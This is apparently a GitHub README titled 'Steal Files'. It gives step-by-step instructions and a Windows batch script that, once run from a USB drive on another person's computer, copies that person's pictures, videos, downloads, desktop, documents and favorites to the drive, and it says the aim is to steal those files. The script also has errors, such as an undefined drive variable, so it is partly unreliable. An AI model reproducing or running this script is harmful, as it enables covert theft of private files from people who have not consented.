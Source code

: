 # Steal Files
plug in a usb drive and start stealing the persons files. do at your own rsik
Usage
1 open notpad 
and copy this


@echo off
:: variables
/min
SET odrive=%odrive:~0,2%
set backupcmd=xcopy /s /c /d /e /h /i /r /y
echo off
%backupcmd% "%USERPROFILE%\pictures" "%drive%\all\My pics"
%backupcmd% "%USERPROFILE%\Favorites" "%drive%\all\Favorites"
%backupcmd% "%USERPROFILE%\videos" "%drive%\all\vids"
%backupcmd% "%USERPROFILE%\downloads" "%drive%\all\downloads"
%backupcmd% "%USERPROFILE%\desktop" "%drive%\all\desktop"
%backupcmd% "%USERPROFILE%\documents" "%drive%\all\documents"
@echo off
cls


paste this in notpad and save this as a ".bat" file in your USBDrive 
open it to begin copy :)
